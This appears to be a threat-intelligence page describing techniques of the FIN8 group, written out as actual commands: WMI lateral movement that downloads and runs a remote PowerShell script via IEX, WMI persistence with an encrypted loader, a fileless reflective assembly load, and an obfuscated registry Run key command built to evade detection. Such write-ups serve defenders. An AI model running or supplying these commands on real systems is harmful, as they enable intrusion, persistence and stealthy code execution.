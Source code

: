# FIN8

## Features

1. Use WMI for remote command execution when lateral movement:wmic.exe /node:<target> process call create "cmd /c powershell.exe -nop -ep bypass -c $pw='b640a9c0e64704e1e202a07774613a29971fe5aa';$pa='sys';iex (New-Object System.Net.WebClient).DownloadString('https://Url/134af6')"，Where $pw is used to decrypt the downloaded script file，$pa is an impersonation token description，The process running svchost.exe - k netsvcs will be injected, and the file will be downloaded through IEX.

2. Create triggers through WMI to maintain persistence, using the command:cmd.exe /Q /c powershell.exe -nop -ep bypass -c C:\sldr.ps1 B4a0f3AE251b7689CFdDe1 1> \\127.0.0.1\ADMIN$\__1621898828.3311949 2>&1,Create three objects in WMI to ensure persistence.The sldr.ps1 script contains an RC4 encrypted string，B4a0f3AE251b7689CFdDe1 is the decrypted key.The second object created will be loaded into memory in a fileless format，and execute the static method through StartCheck():powershell.exe -nop -c [System.Reflection.Assembly]::Load(([WmiClass]'root\cimv2:Win32_Base64Class').Properties['Prop'].Value);[MSDAC.PerfOSChecker]::StartCheck().

3. ShellTea malware will appear in the registry HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run existence，and it will abuse wildcards to match software to reduce detection.

```bash
"C:\\Windows\\System32\\cmd.exe '/c' 'powershell.exe' '-w' '1' '-nop' '-c ' 'start-process powershell.exe -windowstyle hidden -arg '-nop -c $a=(Get-ItemProperty registry::HKCU\\S???ware\\Fpkakesude);IEX $a.Xshuzugewogazi ' '"
```
